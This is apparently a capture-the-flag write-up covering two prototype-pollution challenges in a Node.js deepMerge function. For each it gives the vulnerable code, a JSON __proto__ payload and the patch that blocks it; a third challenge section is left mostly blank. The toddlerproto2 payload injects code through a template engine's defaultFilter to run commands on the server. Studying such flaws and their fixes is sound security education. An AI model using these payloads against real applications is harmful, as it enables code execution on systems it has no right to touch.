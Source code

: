 # Solve:

## babyproto1:

### Where is the vulnerability and why it occurs

The problematic code is the deep merge function:
```javascript
function deepMerge(target, source) {
    let output = Object.assign({}, target);
    if (isObject(target) && isObject(source)) {
        for (let key in source){
            if(source.hasOwnProperty(key)){
                if(isObject(source[key])){
                    deepMerge(target[key], source[key])
                }else{
                    target[key] = source[key]
                }
            }
        }
    }
    return output;
}
```
In this function, it uses `target[key] = source[key]` to assign the value of `source[key]` to `target[key]`. 
However, if the target is something like `__proto__`, then it will pollute all objects.

### How to exploit the vulnerability and retrieve the flag

- To trigger the vulnerability, we can input the following into the input boxes,
where locationID is `__proto__`, and the custom key is `flag`, and the custom value is `polluted`.
This would create the data package looking like  (`1` are just placeholders)::
```json
{
    "__proto__": {
        "name": "1",
        "AQ": "1",
        "latitude": "1",
        "longitude": "1",
        "flag": "polluted"
    }
}
```
- To retrieve the flag, simply append `/flag` to the url.

### How the .patch file works

The patch works by adding a check to the `deepMerge` function to prevent prototype pollution.
```javascript
if (key === "__proto__" || key === "constructor" || key === "prototype") {continue;}
```
The check is done by checking keywords like `__proto__` or `constructor` or `prototype`,
and will skip the current iteration of the loop to prevent the pollution.

## toddlerproto2:

### Where is the vulnerability and why it occurs

The problematic code is the deep merge function:
```javascript
function deepMerge(target, source) {
    let output = Object.assign({}, target);
    if (isObject(target) && isObject(source)) {
        for (let key in source){
            if(source.hasOwnProperty(key)){
                if(isObject(source[key])){
                    deepMerge(target[key], source[key])
                }else{
                    target[key] = source[key]
                }
            }
        }
    }
    return output;
}
```
In this function, it uses `target[key] = source[key]` to assign the value of `source[key]` to `target[key]`.
However, if the target is something like `__proto__`, then it will pollute all objects.
The template engine will be polluted, and if we attatch some code to the template engine,
we can execute arbitrary code as it is rendered.

### How to exploit the vulnerability and retrieve the flag

- To trigger the vulnerability, we can input malicious code into the input boxes
that would create the data package looking like this (`1` are just placeholders):
```json
{
    "__proto__": {
        "name": "1",
        "AQ": "1",
        "latitude": "1",
        "longitude": "1",
        "defaultFilter": "e')); process.report.writeReport('touch.txt');//"
    }
}
```
- We then rerender the page
- To retrieve the flag, simply append `/flag` to the url.

### How the .patch file works

The patch uses `Object.freeze(Object.prototype)` at the beginning of the app
to prevent prototype pollution.

## my-sis-system:

### Where is the vulnerability and why it occurs

### How to exploit the vulnerability and retrieve the flag

### How the .patch file works

The patch uses `Object.freeze(Object.prototype)` at the beginning of the app
to prevent prototype pollution.


